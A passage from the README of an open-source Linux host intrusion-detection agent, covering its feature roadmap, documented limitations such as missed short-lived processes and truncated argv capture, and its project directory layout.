   connection". The event model already carries the needed keys (pid, src_ip).
3. **Process attribution for file changes** using fanotify or an eBPF `security_file_open`
   / `vfs_write` hook. inotify can't tell you *who* modified `/etc/passwd`.
4. **UDP / DNS visibility** (DNS tunnelling, UDP C2). Only TCP is monitored today.
5. **Alert forwarding**: syslog/CEF, a webhook, or an OTLP exporter for a SIEM. Plus
   rule-level suppression / exception lists for known-good activity.
6. **Tamper resistance**: detect the agent being stopped or ptrace'd, and protect its
   binary and database with the same FIM it applies to the system.
7. **Container awareness**: enrich events with cgroup / container ID; the PID-namespace
   handling is already in place.
8. **Packaging**: a `.deb` instead of a venv installer, and signed releases.

Known behaviour, documented rather than hidden:

- **Polling backends can miss short-lived processes and connections.** This is
  demonstrated and tested; that's the reason eBPF is the default.
- **The kernel-captured argv is capped at 128 bytes.** It's topped up from `/proc` when
  the process is still alive; otherwise `cmdline_truncated: true` is set.
- **The default rules are a starting point, not tuned for a specific environment.** For
  example, `node`/`java` spawning `sh` is legitimate in some stacks.

## Project layout

```
secagent/
├── daemon/
│   ├── main.py               # secagentd entry point (signals, args)
│   ├── agent.py              # wiring: monitors -> bus -> pipeline, status, reload
│   ├── event_bus.py          # EventBus + AlertPipeline
│   ├── policy_engine.py      # YAML rules, operators, thresholds, explain()
│   ├── storage.py            # SQLite (alerts, events, FIM baseline)
│   ├── process_monitor.py    # eBPF exec tracepoint / /proc diff
│   ├── network_monitor.py    # eBPF TCP kprobes / /proc/net polling
│   ├── file_monitor.py       # FIM: SHA-256 baseline + inotify
│   ├── auth_monitor.py       # auth.log tail / journald
│   ├── responder.py          # gated kill_process / block_ip
│   ├── control.py            # Unix-socket control API
│   ├── canary.py             # eBPF sensor self-test
│   ├── bpftrace.py, procfs.py, inotify.py, monitor.py
│   └── bpf/exec.bt, bpf/net.bt
├── cli/secagentctl.py
├── dashboard/api.py, dashboard/static/index.html
├── policy/default_policy.yaml
└── events.py, config.py
tests/unit/            tests/integration/
systemd/secagentd.service   install.sh   run_tests.sh   Makefile   demo/attack_simulation.sh
```

License: MIT.
